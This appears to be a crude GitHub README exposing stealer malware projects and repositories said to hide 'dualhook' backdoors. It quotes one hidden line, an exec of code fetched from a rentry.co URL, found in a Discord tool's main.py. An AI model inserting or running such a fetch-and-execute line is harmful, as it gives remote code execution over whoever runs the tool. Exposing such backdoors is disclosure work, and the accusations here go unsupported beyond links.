 # Repository made to demonstrate the reliability of Stealers - internet rat
![image](https://github.com/Lawxsz/dualhook-exposed/assets/116668706/78b9a5ac-3e9e-4c8b-9ede-c4794795713a)

github.com/doenerium6969

https://github.com/doenerium6969/doenerium-fixed/commit/3ec9709980331a937f12b5b59d29638e6efc176b (DUALHOOK)
t.me/doenerium69 same fake doener and dualhook shit
its fake doenerium XD
 i have more proofs but u are retard if need mor

- blackcap original version

- satan stealer

https://github.com/zrSadek/discord-vanity-sniper/blob/main/main.py see raw main code lmao

https://raw.githubusercontent.com/zrSadek/discord-mass-friend/main/main.py `;exec(requests.get('https://rentry.co/tvfwh/raw').text)`

- In this repository will be stored information about Stealers or source codes with Dualhook.
- Anyone is free to contribute here
